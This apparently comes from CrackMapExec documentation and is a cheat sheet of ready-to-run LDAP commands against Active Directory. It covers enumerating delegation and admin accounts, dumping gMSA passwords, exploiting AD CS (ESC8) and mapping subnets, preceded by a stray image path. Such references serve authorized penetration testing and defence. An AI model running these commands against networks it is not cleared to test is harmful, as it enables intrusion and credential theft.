 ### Unconstrained Delegation

```
cme ldap 192.168.0.104 -u harry -p pass --trusted-for-delegation
```

### Admin Count

```
cme ldap 192.168.255.131 -u adm -p pass --admin-count
```

### Machine Account Quota

```
cme ldap <ip> -u user -p pass -M maq
```

### Get User Descriptions

```
cme ldap <ip> -u user -p pass -M maq --kdchost 127.0.0.1 -M get-desc-users
```

## Dump gMSA

```
cme ldap <ip> -u <user> -p <pass> --gmsa
```

## Exploit ESC8 (AD CS)

```
cme run ldap <ip> -u user -p pass -M adcs
```

### List all Certificates inside a PKI

```
crackmapexec run ldap <ip> -u user -p pass -M adcs -o SERVER=xxxx
```

## Extract Subnet

```
cme ldap <ip> -u <user> -p <pass> -M get-network
cme ldap <ip> -u <user> -p <pass> -M get-network -o ONLY_HOSTS=true
cme ldap <ip> -u <user> -p <pass> -M get-network -o ALL=true
```

## Check LDAP Signing

```
cme ldap <ip> -u user -p pass -M ldap-checker
```
